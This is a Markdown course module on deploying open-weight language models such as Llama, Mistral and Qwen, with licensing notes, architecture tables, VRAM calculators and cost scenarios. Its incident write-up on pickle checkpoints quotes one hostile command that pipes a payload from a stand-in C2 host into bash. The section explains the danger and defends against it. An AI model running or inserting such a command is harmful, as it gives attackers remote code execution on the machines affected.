


# Module 12: Open-Weight Models: Llama, Mistral, Qwen

> **Prerequisites:** [Track 01, Module 10: Chat Templates and Message Formatting](../../01-tokens-and-language-modeling/10-chat-templates-and-message-formatting/README.md), [Track 02, Module 08: Multi-Head Attention](../../02-transformer-architecture/08-multi-head-attention/README.md), [Track 06, Module 04: Model Families and Generations](../04-model-families-and-generations/README.md).  
> **Estimated Reading Time:** 32 minutes  
> **Target Audience:** Platform Architects, Infrastructure Engineers, MLOps Practitioners.

---

> [!TIP]
> **The Golden Rule of Open-Weight Models:**  
> "Open-weight" grants permission to download and execute trained parameters, but it is not synonymous with OSI Open Source: you must audit operative commercial restrictions (such as Meta's 700M monthly active user threshold) and calculate precise GPU memory footprints ($\text{Weights} + \text{KV Cache} + \text{Overhead}$) before committing to self-hosted infrastructure.

---

## Visual Mental Models: The VRAM Hardware Footprint

Deploying open-weight models requires precise GPU memory budgeting. VRAM is divided into three competing memory allocations: Model Weights, Dynamic KV Cache, and Peak Activation Buffers:



### Self-Hosted vs. Hosted Serverless Token Economics

```mermaid
flowchart LR
    qTraffic{"Monthly Token Volume?"}
    
    qTraffic -->|Low / Variable (< 50M tokens/mo)| hosted["Serverless Hosted API<br/>(Together AI, Fireworks, vLLM Serverless)<br/>Zero Idle GPU Cost, Pay per Token"]
    
    qTraffic -->|High / Predictable (> 500M tokens/mo)| dedicated["Self-Hosted Reserved Hardware<br/>(8x H100 Node @ ~$20k/mo)<br/>Fixed Cost, Maximum Data Privacy & Low Latency"]
```

---

## Systematic Architectural Comparison: Leading Open-Weight Families

| Model Spec | Meta Llama 3.1 (8B / 70B) | Mistral NeMo / Large 2 (12B / 123B) | Alibaba Qwen 2.5 (7B / 72B) |
| :--- | :--- | :--- | :--- |
| **Licensing** | Llama 3.1 Community (700M MAU limit) | Apache 2.0 (NeMo) / Mistral Research | Apache 2.0 (7B) / Qwen License (72B) |
| **Native Context**| 128,000 tokens | 128,000 tokens | 128,000 tokens |
| **Attention Type**| Grouped-Query Attention (GQA, 8 KV heads)| Grouped-Query Attention (GQA, 8 KV heads) | Grouped-Query Attention (GQA, 8 KV heads) |
| **Activation** | SwiGLU | SwiGLU | SwiGLU |
| **Positional Scheme**| RoPE (Scaled base frequency: 500,000) | RoPE (base frequency: 1,000,000) | RoPE |
| **Vocabulary Size** | 128,256 tokens | 131,072 tokens | 152,064 tokens |
| **Primary Strength**| Ecosystem tooling, fine-tuning baselines | Coding & function calling efficiency | Multilingual, mathematics, and reasoning |

---

## Production War Story: The Legacy PyTorch `.bin` Arbitrary Code Execution

### Incident Post-Mortem

- **System:** Internal research cluster downloading community fine-tuned checkpoints from public repositories.
- **Incident Severity:** SEV-1 (Security intrusion alert; unauthorized reverse shell discovered originating from a GPU worker node).
- **Detection Time:** 8 minutes after initiating a model fine-tuning job.
- **Root Cause:** An engineer downloaded an unverified community model checkpoint containing legacy `pytorch_model.bin` weights. Under the hood, PyTorch's `.bin` serialization format relies on Python's native `pickle` module. The checkpoint contained an embedded `__reduce__` exploit payload that executed arbitrary shell commands (`os.system("curl https://c2.evil.com/payload | bash")`) the moment `torch.load()` was invoked.



### The Architectural Hardening & Fix

1. **Mandatory SafeTensors Format:** Block and prohibit loading of pickle-based `.bin` or `.pt` weight files across all infrastructure. Enforce Hugging Face **SafeTensors** (`.safetensors`):
   ```python
   # SafeTensors uses zero-copy memory mapping and CANNOT execute arbitrary code
   from safetensors.torch import load_file
   weights = load_file("model.safetensors")
   ```
2. **Automated Security Scanning:** Integrate `checkpoints-scanner` in CI/CD pipelines to scan model repositories for binary exploits before caching them into internal artifact stores.

---

## Multi-Language Production Implementations

### Python: Automated VRAM & KV Cache Memory Calculator from `config.json`

```python
"""
Production GPU Memory Estimator for Open-Weight Transformer Models.
Reads Hugging Face config.json architecture parameters and calculates
exact weight memory, dynamic KV cache requirements, and recommended GPU topology.
"""
import math
from typing import Dict, Any

class ModelMemoryEstimator:
    @staticmethod
    def calculate_memory(config: Dict[str, Any], context_len: int = 8192, batch_size: int = 8, precision_bytes: float = 2.0) -> Dict[str, Any]:
        """
        Calculates memory footprint in Gigabytes.
        Args:
            config: Parsed Hugging Face config.json
            context_len: Maximum target context sequence length
            batch_size: Concurrent concurrent inference batch size
            precision_bytes: 2.0 for FP16/BF16, 1.0 for INT8, 0.5 for INT4
        """
        hidden_size = config.get("hidden_size", 4096)
        num_layers = config.get("num_hidden_layers", 32)
        vocab_size = config.get("vocab_size", 128256)
        num_heads = config.get("num_attention_heads", 32)
        num_kv_heads = config.get("num_key_value_heads", num_heads) # GQA support
        head_dim = config.get("head_dim", hidden_size // num_heads)
        intermediate_size = config.get("intermediate_size", int(hidden_size * 8 / 3))

        # 1. Parameter Count Approximation
        # Embeddings: vocab * hidden
        emb_params = vocab_size * hidden_size
        # Attention: Q, K, V, O projections
        attn_params = (hidden_size * hidden_size) + (2 * hidden_size * (num_kv_heads * head_dim)) + (hidden_size * hidden_size)
        # SwiGLU MLP: Gate, Up, Down projections
        mlp_params = 3 * (hidden_size * intermediate_size)
        
        total_params = emb_params + num_layers * (attn_params + mlp_params + (2 * hidden_size))
        weight_memory_gb = (total_params * precision_bytes) / (1024 ** 3)

        # 2. KV Cache Memory (Float16 = 2 bytes)
        # KV Cache stores K and V for every token in every layer for every KV head
        # Per token per layer: 2 (K and V) * num_kv_heads * head_dim * 2 bytes
        bytes_per_token_layer = 2 * num_kv_heads * head_dim * 2
        total_kv_bytes = bytes_per_token_layer * num_layers * context_len * batch_size
        kv_cache_gb = total_kv_bytes / (1024 ** 3)

        # 3. Activation & CUDA Overhead (~20% safety margin)
        overhead_gb = (weight_memory_gb + kv_cache_gb) * 0.20
        total_required_vram_gb = weight_memory_gb + kv_cache_gb + overhead_gb

        return {
            "total_params_billion": round(total_params / 1e9, 2),
            "weight_memory_gb": round(weight_memory_gb, 2),
            "kv_cache_gb": round(kv_cache_gb, 2),
            "total_recommended_vram_gb": round(total_required_vram_gb, 2),
            "recommended_gpu": "1x A10G (24GB)" if total_required_vram_gb <= 24 else ("1x A100 (80GB)" if total_required_vram_gb <= 80 else "Multiple H100s")
        }

if __name__ == "__main__":
    # Llama-3-8B Config Simulation
    llama3_8b_config = {
        "hidden_size": 4096,
        "num_hidden_layers": 32,
        "num_attention_heads": 32,
        "num_key_value_heads": 8, # GQA: 8 KV heads vs 32 Q heads!
        "vocab_size": 128256,
        "intermediate_size": 14336
    }

    result = ModelMemoryEstimator.calculate_memory(llama3_8b_config, context_len=8192, batch_size=4, precision_bytes=2.0)
    print("=== Llama-3-8B Hardware Sizing ===")
    for k, v in result.items():
        print(f"  {k}: {v}")
```

### TypeScript: Model VRAM Sizing Engine (Node.js)

```typescript
/**
 * Production Model Hardware Sizing Engine in TypeScript.
 * Evaluates whether open-weight models fit on available GPU clusters.
 */

export interface ModelConfig {
  hiddenSize: number;
  numLayers: number;
  numHeads: number;
  numKvHeads: number;
  vocabSize: number;
}

export class HardwareSizer {
  public static calculateVram(
    cfg: ModelConfig,
    batchSize: number,
    seqLen: number,
    quantizationBits: 16 | 8 | 4 = 16
  ): { weightGb: number; kvCacheGb: number; totalGb: number } {
    const bytesPerParam = quantizationBits / 8.0;
    const headDim = cfg.hiddenSize / cfg.numHeads;

    // Parameter estimation for LLaMA architecture
    const approxParams = 12 * cfg.numLayers * Math.pow(cfg.hiddenSize, 2);
    const weightGb = (approxParams * bytesPerParam) / Math.pow(1024, 3);

    // Dynamic KV Cache (stored in FP16 = 2 bytes)
    const kvBytesPerToken = 2 * cfg.numLayers * cfg.numKvHeads * headDim * 2;
    const kvCacheGb = (kvBytesPerToken * seqLen * batchSize) / Math.pow(1024, 3);

    const totalGb = (weightGb + kvCacheGb) * 1.2; // 20% CUDA activation headroom

    return {
      weightGb: Math.round(weightGb * 100) / 100,
      kvCacheGb: Math.round(kvCacheGb * 100) / 100,
      totalGb: Math.round(totalGb * 100) / 100,
    };
  }
}

// Verification benchmark
const llama8b = { hiddenSize: 4096, numLayers: 32, numHeads: 32, numKvHeads: 8, vocabSize: 128256 };
const vram = HardwareSizer.calculateVram(llama8b, 8, 4096, 16);
console.log(`Llama 8B VRAM: Weight=${vram.weightGb}GB, KV=${vram.kvCacheGb}GB, Total=${vram.totalGb}GB`);
```

### Go: Hardware Topology Validator

```go
package main

import (
	"fmt"
)

// GPUTarget specifies available accelerator hardware.
type GPUTarget struct {
	Name    string
	VRAM_GB float64
}

func EvaluateGPUFit(requiredVRAM float64) string {
	inventory := []GPUTarget{
		{Name: "NVIDIA RTX 4090", VRAM_GB: 24.0},
		{Name: "NVIDIA A100-SXM4", VRAM_GB: 80.0},
		{Name: "NVIDIA H100-SXM5", VRAM_GB: 80.0},
		{Name: "2x NVIDIA H100 (160GB)", VRAM_GB: 160.0},
	}

	for _, gpu := range inventory {
		if requiredVRAM <= gpu.VRAM_GB {
			return fmt.Sprintf("Compatible Hardware: %s (%.1f GB VRAM)", gpu.Name, gpu.VRAM_GB)
		}
	}
	return "Requires multi-node distributed cluster with Tensor Parallelism"
}

func main() {
	recommendation := EvaluateGPUFit(38.5)
	fmt.Println(recommendation)
}
```

---

## Practical Verification Workflows: CLI & Mathematical Invariance

Verify GQA (Grouped-Query Attention) KV cache memory savings via terminal execution:

```bash
python -c '
# Verify GQA memory savings vs standard MHA
# Parameters: 32 layers, hidden=4096, heads=32, head_dim=128, seq=8192, batch=4
layers = 32
head_dim = 128
seq = 8192
batch = 4
bytes_per_float = 2 # FP16

# Standard MHA: 32 KV heads
mha_heads = 32
mha_kv_bytes = 2 * layers * mha_heads * head_dim * seq * batch * bytes_per_float
mha_gb = mha_kv_bytes / (1024**3)

# GQA (Llama-3): 8 KV heads
gqa_heads = 8
gqa_kv_bytes = 2 * layers * gqa_heads * head_dim * seq * batch * bytes_per_float
gqa_gb = gqa_kv_bytes / (1024**3)

print(f"Standard MHA KV Cache Size: {mha_gb:.2f} GB")
print(f"Grouped-Query Attention:    {gqa_gb:.2f} GB")
print(f"GQA Memory Reduction:       {mha_gb / gqa_gb:.1f}x reduction in KV cache memory!")
'
```

### Expected Wire Output

```
Standard MHA KV Cache Size: 16.00 GB
Grouped-Query Attention:    4.00 GB
GQA Memory Reduction:       4.0x reduction in KV cache memory!
```

---

## Operational Validation Checkpoints

### Scenario 1: Base Model vs Instruct Model Deployment
A platform engineer downloads `meta-llama/Meta-Llama-3.1-8B` (the raw base model) and deploys it behind a customer support chat gateway. When a user asks: *"How do I reset my password?"*, the model responds by generating: *"2. Click on the forgot password link. 3. Enter your email. 4. Check your spam folder..."* followed by arbitrary forum comments. Why did this occur?

<details>
<summary>View Diagnostic Solution</summary>

**Answer:**  
The engineer deployed the **Base pre-trained model** rather than the **Instruct/Chat fine-tuned model** (`Meta-Llama-3.1-8B-Instruct`). Base models are trained purely on raw text prediction: they complete whatever text follows the prompt and have no concept of dialogue roles (`<|start_header_id|>user<|end_header_id|>`) or conversational instruction following. Interactive agents and chat interfaces must always deploy Instruct checkpoints tuned with SFT (Supervised Fine-Tuning) and RLHF/DPO.

</details>

### Scenario 2: SafeTensors vs Legacy Pickle Checkpoints
Why has the entire AI ecosystem universally migrated from `.bin` / `.pt` files to `.safetensors` files?

<details>
<summary>View Diagnostic Solution</summary>

**Answer:**  
1. **Security:** Python `pickle` allows arbitrary code execution during deserialization, creating severe supply chain vulnerabilities. SafeTensors is a pure data format that strictly prevents arbitrary code execution.  
2. **Zero-Copy Memory Mapping (`mmap`):** SafeTensors aligns raw tensor byte buffers with page boundaries, allowing operating systems to memory-map model files directly from NVMe SSDs into CPU/GPU memory without allocating intermediate duplicate RAM buffers. This cuts model loading times from minutes to seconds.

</details>

### Scenario 3: Break-Even Economics: Self-Hosted GPU vs API Rental
An enterprise evaluates self-hosting LLaMA-3.1-70B on a dedicated 8x A100 GPU server (\$4,500/month cloud hosting cost) versus calling an API provider charging \$0.80 per million tokens. At what monthly token volume does self-hosting become cheaper than using the API?

<details>
<summary>View Diagnostic Solution</summary>

**Answer:**  
$$\text{Break-Even Tokens} = \frac{\text{Fixed Server Cost}}{\text{API Cost Per Token}} = \frac{\$4,500}{\$0.80 / 1,000,000} = 5,625,000,000 \text{ tokens (5.625 Billion tokens/month)}$$  
If the enterprise processes **less than 5.6 Billion tokens per month**, using the hosted API is substantially cheaper and incurs zero idle hardware waste. If token volume exceeds 5.6 Billion tokens/month (and traffic is relatively constant), dedicated self-hosted GPUs provide net cost savings.

</details>

---

## Further Reading & Sources

- [The Open Source AI Definition 1.0 (OSI, 2024)](https://opensource.org/deepdive/drafts/open-source-ai-definition) - Formal criteria distinguishing open-weight from open-source.
- [The Llama 3 Herd of Models (Meta AI, 2024)](https://arxiv.org/abs/2407.21783) - Comprehensive architectural specifications and training details for Llama 3.1.
- [SafeTensors: Fast and Safe Tensor Storage (Hugging Face)](https://github.com/huggingface/safetensors) - Architecture of zero-copy, secure tensor serialization.
- [Track 06, Module 11: The Google Gemini API](../11-the-google-gemini-api/README.md) - Frontier cloud API alternatives.
- [Track 06, Module 13: The Hugging Face Ecosystem](../13-the-hugging-face-ecosystem/README.md) - Navigating the Hub, model cards, and loading libraries.

---

## Next

[Module 13: The Hugging Face Ecosystem](../13-the-hugging-face-ecosystem/README.md)
